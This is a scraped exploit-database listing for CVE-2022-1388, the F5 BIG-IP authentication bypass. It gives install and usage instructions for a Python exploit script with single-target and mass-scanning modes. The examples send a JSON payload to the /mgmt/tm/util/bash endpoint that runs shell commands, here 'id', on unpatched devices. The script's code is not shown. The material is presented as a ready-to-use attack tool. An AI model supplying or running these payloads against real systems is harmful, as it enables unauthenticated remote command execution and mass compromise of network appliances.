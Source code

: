 ```yaml
---
title: Exploit for Missing Authentication for Critical Function in F5 Big-Ip Access Policy Manager exploit
url: https://sploitus.com/exploit?id=D2CE9456-EDAA-59FB-AD0F-78E18BE9A0D0&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2022-12-01
fetch_date: 2025-10-04T00:08:45.784686
---
```


# Exploit for Missing Authentication for Critical Function in F5 Big-Ip Access Policy Manager exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for Missing Authentication for Critical Function in F5 Big-Ip\_Access\_Policy\_Manager CVE-2022-1388

2022-11-30 | CVSS 9.8

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=D2CE9456-EDAA-59FB-AD0F-78E18BE9A0D0
# CVE-2022-1388
## Checking and exploit for CVE-2022-1388

#### Installation:
```
python3 -m pip install -r requirements.txt
```

#### Usage

Single :
```bash
python3 cve.py s [fullurl] [api_command]

#example
python3 cve.py s http://127.0.0.1:8000/mgmt/tm/util/bash '{"command":"run","utilCmdArgs":"-c id"}'
```
Mass :

```bash
python3 cve.py m [host list] [endpoint] [api_command] [pool]

#example
python3 cve.py m host.txt /mgmt/tm/util/bash '{"command":"run","utilCmdArgs":"-c id"}' 10
```

### References:
- https://github.com/Zeyad-Azima/CVE-2022-1388
- https://github.com/bandit92/CVE2022-1388_TestAPI
- https://github.com/alt3kx/CVE-2022-1388_PoC
- https://www.obrela.com/f5-big-ip-cve-2022-1388-unauthenticated-rce-vulnerability/
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)